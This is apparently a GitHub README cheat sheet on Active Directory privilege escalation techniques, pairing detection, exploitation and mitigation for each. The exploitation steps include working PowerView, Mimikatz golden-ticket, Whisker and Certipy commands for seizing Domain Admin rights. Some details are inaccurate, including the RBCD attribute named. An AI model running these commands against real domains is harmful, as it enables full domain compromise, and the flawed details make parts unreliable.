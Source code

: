<details>
<summary> DACL/ACL-Based Escalation (GenericAll / WriteDACL / WriteProperty)</summary>
 <br> 

If you (or a compromised account) have ACL rights like GenericAll, WriteDACL, or WriteProperty over another AD object (user, group, OU, computer), you can modify permissions or credentials to escalate privileges 

🔍 Detection

Use BloodHound to detect privileged edges (WriteDacl, GenericAll).

Run PowerView:

powershell

    Get-ObjectAcl -SamAccountName TargetUser -ResolveGUIDs
Filter for rights: GenericAll, WriteDacl, etc. 

⚙️ Exploitation
Use PowerView/Powermad:

powershell

    Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "LowPrivUser" -Rights All
Then add yourself to Domain Admins or reset passwords.

🛡️ Mitigation

Audit ACLs on sensitive objects (adminCount=1).

Use BloodHound to regularly review privileged rights.

Limit ACEs granting WriteDACL or GenericAll.
</details>
<details>
<summary>AdminSDHolder Abuse</summary>
 <br>  
The AdminSDHolder object enforces consistent ACLs on protected groups (like Domain Admins). If you can alter its ACL, the change propagates via SDProp to all members 

🔍 Detection
Search for AdminSDHolder ACLs:

powershell

    Get-ADUser -LDAPFilter "(AdminCount=1)" ...
    Get-ACL "AD:CN=AdminSDHolder,CN=System,DC=domain,DC=com"
⚙️ Exploitation

powershell

    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,...' -PrincipalSamAccountName attacker -Rights All
You’ll gain long-term privileged membership.

🛡️ Mitigation

Restrict ACL modifications on AdminSDHolder.

Monitor event logs for changes (event IDs 4662, 4670).
</details>
<details>
<summary>Resource-Based Constrained Delegation (RBCD) Abuse</summary>
 <br> 

Control over a computer object plus delegation rights can allow you to impersonate users to services—escalating to SYSTEM or DC-level access via Kerberos ticket forging.

🔍 Detection
Use BloodHound to detect AllowedToDelegateTo paths. Query with:

powershell

    Get-ADComputer -Properties msDS-AllowedToDelegateTo
⚙️ Exploitation
Create a computer account (e.g. attacker$) and set delegation rights:

powershell

    Set-ADComputer target$ -Add @{msDS-AllowedToDelegateTo='attacker$'}
Then issue Kerberos tickets with Rubeus or Impacket.

🛡️ Mitigation

Limit delegation rights.

Audit msDS-AllowedToDelegateTo attributes.

Disable unconstrained delegation unless required.
</details>
<details>
<summary>Shadow Credentials</summary>
 <br> 

If you can write to the msDS-KeyCredentialLink attribute on an object, you can create a "shadow credential" (certificate) to authenticate as them via Kerberos PKINIT without needing passwords 
HADESS

🔍 Detection
Check write permissions on this attribute via BloodHound or PowerView:

powershell

    Get-ACL object | Select-Object rights
⚙️ Exploitation
Use Whisker.exe:

powershell

    Whisker.exe add /target:CompAccount$
Then obtain TGT via certificate-based authentication with Rubeus.

🛡️ Mitigation

Disable unnecessary write access to msDS-KeyCredentialLink.

Monitor certificate enrollment events.

Enforce Windows ≥2016 with Kerberos protections.
</details>
<details>
<summary>SID History Injection</summary>
 <br> 

If you can modify SIDHistory (or have KRBTGT hash), you can inject high-privilege SIDs into your account and forge golden tickets for domain admin access.

🔍 Detection
Check SIDHistory values via ADSI or BloodHound.

⚙️ Exploitation
Use Mimikatz:

powershell

    kerberos::golden /user:attacker /sid:<DA_SID> 
Forge TGT tickets to escalate.

🛡️ Mitigation

Monitor creation of unusual tickets or SIDHistory changes (Event ID 4720/4732).

Secure KRBTGT hash with frequent password resets.
</details>
<details>
<summary>Trust Exploitation / Foreign Security Principals Abuse</summary>
 <br>
 Trust Exploitation / Foreign Security Principals Abuse

In multi-domain or multi-forest environments, trust misconfigurations allow abused FSP entries from other realms to escalate via cross-domain ACLs.

🔍 Detection
BloodHound shows trust paths and unresolved SIDs.

⚙️ Exploitation
Add FSP SID from trusted domain into a privileged group using ACL editing.

🛡️ Mitigation

Enable SID filtering.

Validate cross-domain ACLs for resolved accounts only.
</details>
<details>
<summary>gMSA Password Disclosure</summary>
 <br>
 gMSA Password Disclosure

If you can read msDS-ManagedPassword, you can retrieve the machine account password of a Group Managed Service Account to impersonate it.

🔍 Detection
Check ACL on gMSA:

powershell

    Get-ADServiceAccount gmsa -Properties msDS-ManagedPassword
ConvertFrom-ADManagedPasswordBlob ...
⚙️ Exploitation
With ReadGMSAPassword rights, extract credentials via PowerShell (ConvertFrom-ADManagedPasswordBlob).

🛡️ Mitigation

Restrict read ACLs for these attributes.

Monitor gMSA password retrieval events.
</details>
<details>
<summary>Golden Ticket Forgery (KRBTGT compromise)</summary>
 <br>
If you can extract KRBTGT NTLM hash (e.g. via DCSync), you can issue valid TGTs for any domain user—including Domain Admins—without contacting KDC.

🔍 Detection
Monitor long-lifetime TGT events (Event ID 4768) or hash extraction attempts.

⚙️ Exploitation
Use Mimikatz:

powershell

    kerberos::golden /user:Administrator /krbtgt:<hash> /domain:domain.com
Inject ticket with /ptt.

🛡️ Mitigation

Periodically reset KRBTGT twice.

Monitor DCSync and TGT creation anomalies.
</details>
<details>
<summary> ADCS Misconfiguration / ESC Attacks</summary>
 <br>

Abusing Certificate Templates or CA permissions can allow low-privilege users to enroll certs for high-risk purposes (e.g. escrow, domain authentication), leading to full domain compromise 

🔍 Detection

Use certipy, bloodhound or certify to enumerate templates and CA ACLs.

Check for templates that allow enrollment to Authenticated Users.

⚙️ Exploitation
Certipy or PowerView:

powershell
Copy
Edit
Certipy find
Certipy enroll attacker -template vulnerableTemplate
Use resulting certificate to authenticate via PKINIT.

🛡️ Mitigation

Secure template ACLs (use principle of least privilege).

Require CA manager approval for templates.

Monitor certificate issuance logs.

